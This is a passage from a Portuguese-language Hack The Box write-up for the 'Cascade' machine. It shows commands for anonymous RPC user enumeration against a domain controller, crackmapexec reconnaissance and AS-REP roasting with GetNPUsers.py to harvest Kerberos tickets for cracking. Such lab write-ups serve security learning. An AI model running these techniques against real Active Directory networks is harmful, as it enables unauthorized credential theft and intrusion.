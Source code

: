 
O resultado do nmap nos indica que provavelmente estaremos enfrentando um Active Directory / Domain Controller, devido ás suas portas de DNS, Samba, RPC, LDAP, Kerberos e WinRM abertas.

## RDP

A primeira coisa a analisar é ver se podemos extrair nomes de usuários de domínio via RPCClient. Nesta máquina temos que especificar que queremos entrar com o usuário vazio (-U '') e sem password (-N).

```bash
rpcclient 10.10.10.182 -N -U ''
```

Neste ponto estamos efectivamente no modo interativo, e podemos listar os usuários via **_enumdomusers_**. Para extrair melhor os dados, prefiro executar diretamente os comandos em vez de entrar em modo interativo para poder receber o resultado no meu stdout normal e poder pipear os comandos com outros:

```bash
rpcclient 10.10.10.182 -N -U '' -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' > contents/users
```

![Enumeração de usuários via RPC](Assets/HTB-Windows-Medium-Cascade/enum-get-users.png)

## GetNPUsers.py

Agora que temos usuários de domínio, irei só adicionar usuários admin por defeito e, já que kerberos está aberto, tentar efetuar uma ataque chamado AS-REP Roasting Attack, para tentar recuperar TGT de usuário que foram criados com a opção 'Do not require Kerberos preauthentication' selecionada. Ainda perciso saber o nome do Domain Controller. Então primeiro, vou rodar um crackmapexec, guardar as informações relevantes, e a seguir usar o GetNPUsers.py para tentar recuperar TGTs.

```bash
crackmapexec smb 10.10.10.182
#>  SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
echo -e "10.10.10.182\tcascade.local" >> /etc/hosts

GetNPUsers.py cascade.local/ -no-pass -usersfile contents/users
```
